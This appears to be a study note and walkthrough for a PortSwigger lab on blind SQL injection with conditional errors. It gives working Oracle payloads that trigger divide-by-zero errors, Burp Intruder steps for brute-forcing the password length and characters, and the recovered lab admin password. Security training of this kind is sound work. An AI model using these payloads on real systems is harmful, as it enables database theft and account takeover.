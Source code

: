## Error-based SQL injection
- where you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts.
- The possibilities depend largely on the configuration of the database and the types of errors you're able to trigger.

### Exploiting blind SQL injection by triggering conditional errors
- Very often, an unhandled error thrown by the database will cause some difference in the application's response (such as an error message), allowing us to infer the truth of the injected condition.
- This involves modifying the query so that it will cause a database error if the condition is true, but not if the condition is false

- To see how this works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a 
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
```
- These inputs use the `CASE` keyword to test a condition and return a different expression depending on whether the expression is true.
- With the first input, the `CASE` expression evaluates to `'a'`, which does not cause any error. With the second input, it evaluates to `1/0`, which causes a divide-by-zero error. 
- Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.

- Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:
```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

## Steps to solve Lab-1
### Desc - Blind SQL injection with conditional errors
### Pre-requisite - [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

1. First confirm that the parameter(tracking-id) is vulnerable to blind SQLi
Vulnerable parameter - tracking cookie(tracking-id)
**Below is how the backend query looks like when it checks the user is known or not known** ->
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8'
```

**Note** - If the SQL query causes an error, then the application returns a custom error message.

**Checking the above note by putting single quote**
![[blind_SQL_injection_conditional_errors3.png]]
From above we can clearly say that it is vulnerable to sql injection.

2. Now, we need to check the version of the database used:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT '') || '
```

Below performing on burp:
![[blind_SQL_injection_conditional_errors1.png]]
- We need to use "FROM" keyword along with the oracle built-in table which is "dual".

query - 
```sql 
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT '' FROM dual) || '
```

Below performing on burp:
![[blind_SQL_injection_conditional_errors2.png]]
**Result** - Database is oracle.

3. Now, we are going to confirm that the **users** table exist in the database.
query -
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT '' FROM users) || '
```

Below performing on burp:
![[blind_SQL_injection_conditional_errors4.png]]
**Reason** - The **users** table might be have more than one entry, which just break our query. that's why we need to define that to output only one row from **users** table.

query - 
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT '' FROM users WHERE rownum=1) || '
```

Below performing on burp again:
![[blind_SQL_injection_conditional_errors5.png]]
**Result** - `users` does exist in database.

4. Now, we are going to confirm that **administrator** user exist in the database.
query - 
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT '' FROM users WHERE username=administrator) || '
```

Below performing on burp:
![[blind_SQL_injection_conditional_errors6.png]]
However, this wouldn't really tell you that **administrator** user exist.
**Reason** - When you search for any other and that user doesn't even exist then this query doesn't even run the **SELECT** statement code and give **200** status code.
![[blind_SQL_injection_conditional_errors7.png]]
user - a23strasdfator but the resulted status code is **200**.

**We need to check the existence of administrator user on the basis of  generating error messages**
query - 
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || '
```
**Explaination to above query**
The **FROM** clause evaluates first and then **SELECT** clause evaluate. So, the **FROM** clause is wrong(doesn't give you any result) then **SELECT** clause doesn't even evaluates.
**For the above query** - If the `administrator` user exist then **SELECT** clause run otherwise it doesn't even run.

##### Checking the existence of administrator user with the above query
query - 
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || '
```

Below performing on burp:
![[blind_SQL_injection_conditional_errors8.png]]
Now, we need to make sure that the **SELECT** clause is running or not by just changing **(1=1)** to **(1=0)**. So that we can get **200** status code
![[blind_SQL_injection_conditional_errors9.png]]
**Result** - administrator user is exist in the database.

**Let's with the user that doesn't exist**
![[blind_SQL_injection_conditional_errors10.png]]
**Reason** - We get **200** status code because **SELECT** doesn't even evaluates and also the reason is because this **asdf23XXX** doesn't even exist in the database.

5. Now, we are going to determine the length of the password.
query -
```sql 
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' and LENGTH(password)>1) || '
```
We are going to perform the above step on intruder because it help us to perform brute force.

Below performing on burp:
1. Checking the length of password on **Repeater**:
![[blind_SQL_injection_conditional_errors11.png]]
**Reason for 200 status code** - **SELECT** clause doesn't even run because **FROM** clause is wrong.

2. Sending the query to intruder:
![[blind_SQL_injection_conditional_errors12.png]]

3. Seting up the positions in the position section of intruder
![[blind_SQL_injection_conditional_errors13.png]]

4. Setting up the payload. 
![[blind_SQL_injection_conditional_errors14.png]]

5. Setting up the Grep section to grab the password length on the basis of "Internal Server Error".
![[blind_SQL_injection_conditional_errors15.png]]
start the attack.

6. Performing brute forcing attack to gather the information about length of password.
![[blind_SQL_injection_conditional_errors16.png]]
**Result** - The length of administrator password is exactly 20.

6. Now, we are going to determine each character of password.
query -->
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' and substr(password,1,1)='a') || '
```
The iterative approach is so lengthy and time consuming so, we are going to use **intruder** to do above brute forcing.

Below performing on burp:
1. Sending the **Repeater** data to **Intruder**:
![[blind_SQL_injection_conditional_errors17.png]]

2. Setting up the first payload:
![[blind_SQL_injection_conditional_errors19.png]]

3. Setting up the second payload to brute-force the password characters:
![[blind_SQL_injection_conditional_errors20.png]]

4. Setting up the **Grep** to grab the **Internal Server Error** message responses:
![[blind_SQL_injection_conditional_errors21.png]]
Start the attack.

5. Brute-forcing stage:
![[blind_SQL_injection_conditional_errors22.png]]
**Result** - password of administrator is "s0s181epsxf77yn2qmn6"

6. Try to login as administrator with the above password and then you solved the lab:
![[blind_SQL_injection_conditional_errors23.png]]
